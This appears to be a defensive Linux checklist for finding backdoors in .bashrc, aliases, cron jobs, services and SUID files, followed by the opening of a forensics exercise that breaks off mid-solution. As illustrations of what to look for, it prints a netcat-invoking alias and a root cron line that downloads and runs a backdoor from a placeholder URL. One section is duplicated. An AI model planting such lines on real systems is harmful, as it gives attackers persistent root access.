 
3. Monitoring User’s .bashrc for Backdoors
Look for suspicious entries in .bashrc:

        cat ~/.bashrc

Remove any unauthorized commands, such as reverse shells (nc) or unexpected scripts that run automatically.


4. Checking Aliases for Backdoors
Inspect aliases that may execute backdoor commands:

       alias
   
Check if any aliases are set up to execute malicious commands, such as:

     alias cd='$(nc ...)'


5. Detecting Cronjob-based Backdoors
Review crontab for unauthorized scheduled jobs:

       crontab -l
   
Ensure no malicious tasks are scheduled to run, such as downloading and executing backdoors:

     * * * * * root cd /tmp; wget malicious-url/backdoor && ./backdoor




6. Checking for Services Backdoors
List all active services for suspicious entries:

        systemctl list-unit-files --type=service
   
Ensure there are no unknown or suspicious services, such as backdoor.service.



7. Detecting SUID Backdoors
Find all SUID files (files with setuid permissions):

       find / -type f -perm -u=s 2>/dev/null
   
SUID files allow a command to be executed with the permissions of the file owner (often root). Ensure no unauthorized binaries are present, especially hidden ones.



7. Detecting SUID Backdoors
Find all SUID files (files with setuid permissions):

        find / -type f -perm -u=s 2>/dev/null
   
SUID files allow a command to be executed with the permissions of the file owner (often root). Ensure no unauthorized binaries are present, especially hidden ones.


FORENSICS

Forensics Question IP Address of the Compromised Site EXAMPLE
Scenario: “We suspect that our server has been compromised through a download from an external site. What is the IP address of the site that we have been compromised through?”
Solution:
Search the download history of the browser (e.g., Firefox) and locate the suspicious file, innocent 2.xslm. Identify the site the file was downloaded from and use the ping command to retrieve the IP address:
